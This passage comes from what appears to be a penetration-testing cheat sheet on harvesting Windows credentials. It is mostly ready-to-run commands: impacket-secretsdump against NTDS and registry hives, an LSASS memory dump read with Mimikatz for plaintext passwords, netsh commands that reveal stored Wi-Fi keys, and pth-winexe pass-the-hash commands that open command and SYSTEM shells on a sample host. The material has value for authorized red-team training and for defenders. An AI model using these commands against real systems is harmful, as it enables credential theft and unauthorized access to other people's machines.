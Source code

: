 ```
#### impacket-secretsdump

Alternatively, you can use `impacket-secretsdump`, however, for this, you need the NTDS:

```
impacket-secretsdump -ntds ntds -system SYSTEM LOCAL
impacket-secretsdump -ntds ntds.dit -system SYSTEM -security SECURITY LOCAL
```

### Dump LSASS Login Credentials

The Local Security Authority Subsystem Service (LSASS) is a process responsible for enforcing security on a Windows system. By creating a memory dump of the process, we can extract plaintext credentials.

With local administrator rights on a host, open task manager, find lsass.exe, right-click and select “Create Dump File”

![Task Manager -> Details -> lsass.exe](<../.gitbook/assets/image (24).png>)

Create a dump file:

![Create dump file](<../.gitbook/assets/image (23).png>)

Then you will receive this message:

![](<../.gitbook/assets/image (26).png>)

Mimikatz can then dump the plaintext login credentials:

```
sekurlsa::Minidump lsass.DMP
sekurlsa::logonPasswords
```

### Dump Wi-Fi Passwords

We can dump wi-fi passwords with netsh:

```
netsh wlan show profiles
netsh wlan show profile name="ConnectionName" key=clear
```

### **Passing the Hash**

Windows accepts hashes to authenticate to a number of services. We can use pth tools to perform a pass-the-hash in order to log in with the hash.

#### PTH Privilege Escalation Methodology

1.  Use the hash with pth-winexe to spawn a command prompt:

    ```
    pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.10.10 cmd.exe
    ```
2.  Use the hash with pth-winexe to spawn a SYSTEM level command prompt:

    ```
    pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.10.10 cmd.exe
    ```

```